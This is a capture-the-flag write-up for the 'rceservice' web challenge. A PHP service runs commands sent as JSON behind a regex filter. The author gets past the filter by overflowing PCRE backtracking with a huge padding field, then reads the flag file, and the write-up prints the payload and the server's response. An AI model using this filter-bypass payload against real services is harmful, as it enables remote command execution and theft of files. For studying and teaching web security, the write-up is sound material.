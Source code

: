 # rceservice
First, our cmd input of json format should be like `{"cmd": "ls"}`. The service would use `system(cmd)` to execute the command. So, how to bypass the regular expression?  
* Cannot make a reverse shell because both `.` and numbers are blocked!  
* Cannot execute multiple line command!  
* Only allow space, colon, and `"`!  
  
To here, something ran into my mind: How about pcreDoS? The trick to crash regex by outnumbering the limit of backtrack [You can see my writeup of pcrewaf](https://blog.1pwnch.com/ctf/websecurity/2018/11/26/Code-Breaking-Puzzles/#more). I start to try my payload in regex debugger of regex 101.  

My final payload is `{"cmd": "/bin/cat /home/rceservice/flag", "hi": "a"*1000000}` !  
`^.*` would match to the end of my payload at first, so when next part (`alias......`) wants to match something but finds nothing, it would backtrack until matched. Such thousand times of `a` would make it outnumber the limit of backtrack easily.  
Following is the flag:  
```php
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```
flag: `fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}`
